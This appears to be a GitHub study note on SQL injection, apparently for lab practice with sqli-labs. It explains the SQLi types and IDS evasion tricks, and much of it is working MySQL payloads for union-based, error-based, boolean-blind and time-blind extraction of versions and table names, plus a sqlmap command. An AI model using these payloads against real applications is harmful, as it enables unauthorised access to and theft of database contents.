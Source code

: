 ## SQL Injection Attack
`` SQL injection (SQLi) is an application security weakness that allows attackers to control an application’s database – letting them access or delete data, change an application’s data-driven behavior, and do other undesirable things – by tricking the application into sending unexpected SQL commands. ``

## Types of SQL Injection (SQLi)
### In-band SQLi (Classic SQLi) - an attacker is able to use the same communication channel to both launch the attack and gather results.
``Error-based SQLi - relies on error messages thrown by the database server to obtain information about the structure of the database.``

``Union-based SQLi - leverages the UNION SQL operator to combine the results of two or more SELECT statements into a single result which is then returned as part of the HTTP response.``

### Inferential SQLi (Blind SQLi) - no data is actually transferred via the web application and the attacker would not be able to see the result of an attack in-band (which is why such attacks are commonly referred to as “blind SQL Injection attacks”)
``Blind-boolean-based SQLi - relies on sending an SQL query to the database which forces the application to return a different result depending on whether the query returns a TRUE or FALSE result.``

``Blind-time-based SQLi - relies on sending an SQL query to the database which forces the database to wait for a specified amount of time (in seconds) before responding ``

### Out-of-band SQLi -  an attacker is unable to use the same channel to launch the attack and gather results

### Evasion Technique

Use encryption.

Obfuscate string to avoid pattern matching.

Use Concatenation to confuse the IDS.

Use encoding like ASCII encoding, hexadecimal encoding to avoid detection.

Insert inline comments between query.


### [Audi 1 Lab](https://github.com/Audi-1/sqli-labs)
### [Audi 1 Lab Explaination](https://www.youtube.com/playlist?list=PLkiAz1NPnw8qEgzS7cgVMKavvOAdogsro)
### [Useful Link](http://index-of.es/Varios-2/Advanced%20SQL%20Injection.pdf)


Union Based

```
order by 
union select
group_concat(table_name) from information_schema.tables where table_schema=database()
group_concat(column_name) from information_schema.columns where table_name='table_name'
group_concat(data) from table_name
```
Error Based
```
# Intro 

SELECT count(*) from information_schema.tables;
SELECT rand();
SELECT floor(1.5);
select 1 from y;
select count(*),username from users group by username;

#Variable
SELECT count(*),CONCAT((SELECT @@version),0x3a,rand()) x FROM information_schema.tables group by x;
SELECT @x;
######
SELECT count(*),CONCAT((SELECT @@version),0x3a,floor(rand()*2)) x FROM information_schema.tables group by x;
SELECT @x;

# Version
AND (SELECT 1 FROM (SELECT count(*),CONCAT((SELECT @@version),0x3a,FLOOR(RAND(0)*2)) x FROM information_schema.tables GROUP BY x) y)

# Table
AND (SELECT 1 FROM (SELECT count(*),CONCAT((SELECT (table_name) from information_schema.tables where table_schema=database() limit 0,1),0x3a,FLOOR(RAND(0)*2)) x FROM information_schema.tables GROUP BY x) y)
```
Boolean Based Blind
sqlmap -r test.txt -p search 
```
# Intro
select substr('abcde',1,1);
select ascii('a');
select ascii(substr(@@version,1,1));

# True or False
select ascii(substr(@@version,1,1)) < 50;
select ascii(substr(@@version,1,1)) < 40;
select ascii(substr(@@version,1,1)) = 49;

# Testing
1 and 1=1 -> True
1 and 1=2 -> False

# Version
and ascii(substr(@@version,1,1)) = 49 -> First Character
and ascii(substring(version(),2,1)) = 48 -> Second Character

# Table
and ascii(substring((select concat(table_name) from information_schema.tables where table_schema=database()),1,1)) > 100



```
Time Based Blind
```
# Intro
SELECT IF(500<1000, "YES", "NO");
sleep(5);
and if(500<1000, sleep(5), NULL) -> Sleep
and if(500>1000, sleep(5), NULL) -> Do Not Sleep

# Version
and if(ascii(substr(version(),1,1)) = 49, sleep(5), NULL)

# Table
and if(ascii(substr((select concat(table_name) from information_schema.tables where table_schema=database()),1,1)) > 100, sleep(5), NULL)
```

Cheatsheet
```
https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/SQL%20Injection
```

### Noted by [konova](https://www.facebook.com/kon0va)

### Ref : 
- [acunetix](https://www.acunetix.com/websitesecurity/sql-injection2/)
- [lol Security](https://github.com/LunaM00n/Free-WebSec-Class/blob/master/Lectures/06.SQL%20Injection.md)


